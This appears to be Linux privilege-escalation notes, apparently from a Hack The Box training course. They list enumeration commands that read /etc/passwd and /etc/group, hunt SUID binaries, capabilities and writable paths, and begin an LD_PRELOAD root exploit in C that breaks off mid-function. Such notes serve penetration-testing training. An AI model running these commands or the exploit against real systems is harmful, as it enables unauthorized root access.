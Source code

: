 ### List users & groups
```bash
ls /home
fgrep "bash" /etc/passwd
fgrep -v "nologin" /etc/passwd
cat /etc/group
w
id
```

Use case with "adm", we can inspect /var/log/* using aureport
```bash
aureport --tty | less
```

### File Systems & Drives
```bash
df -h
lsblk
cat /etc/fstab
cat /etc/fstab | grep -v "#" | column -t
ls -l /tmp /var/tmp /dev/shm

# SUID and SETGID bit
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
# Config file
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
# Shared object required by binary
ldd /bin/ls
# Find specific files (hidden file and directory / sh scripts / config file)
find / -type f -name ".*" -exec ls -l {} \; 2>/dev/null | grep $USER
find / -type d -name ".*" -ls 2>/dev/null
find / -type f -name "*.sh" 2>/dev/null | grep -v "src\|snap\|share"
find / -type f \( -name *.conf -o -name *.config \) -exec ls -l {} \; 2>/dev/null
# Enumerate capabilities
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
getcap -r / 2>/dev/null
getcap /path/2/binary
# Trace System Calls
strace <binary>
```

### Writables files & directory
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

### Use case : LD_PRELOAD
```bash
htb_student@NIX02:~$ sudo -l
Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD
```
Use this exploit in C :
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
```